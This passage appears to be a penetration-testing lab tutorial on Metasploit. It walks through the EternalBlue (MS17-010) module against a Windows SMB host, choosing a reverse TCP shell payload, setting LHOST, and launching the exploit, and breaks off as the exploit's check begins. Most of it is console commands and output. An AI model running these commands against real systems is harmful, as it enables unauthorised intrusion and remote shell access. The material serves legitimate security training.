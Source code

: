 `msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2`

`payload => generic/shell_reverse_tcp`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > show options`

`Module options (exploit/windows/smb/ms17_010_eternalblue):`

`Name Current Setting Required Description`

`---- --------------- -------- -----------`

`RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'`

`RPORT 445 yes The target port (TCP)`

`SMBDomain . no (Optional) The Windows domain to use for authentication`

`SMBPass no (Optional) The password for the specified username`

`SMBUser no (Optional) The username to authenticate as`

`VERIFY_ARCH true yes Check if remote architecture matches exploit Target.`

`VERIFY_TARGET true yes Check if remote OS matches exploit Target.`

`Payload options (generic/shell_reverse_tcp):`

`Name Current Setting Required Description`

`---- --------------- -------- -----------`

`LHOST yes The listen address (an interface may be specified)`

`LPORT 4444 yes The listen port`

`Exploit target:`

`Id Name`

`-- ----`

`0 Windows 7 and Server 2008 R2 (x64) All Service Packs`

`msf6 exploit(windows/smb/ms17_010_eternalblue) >`

Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell_reverse_tcp).

Some payloads will open new parameters that you may need to set, running the `show options` command once more can show these. As you can see in the above example, a reverse payload will at least require you to set the `LHOST` option.

Setting the LHOST value and running the exploit

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44`

`lhost => 10.10.186.44`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit`

`[*] Started reverse TCP handler on 10.10.186.44:4444`

`[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check`
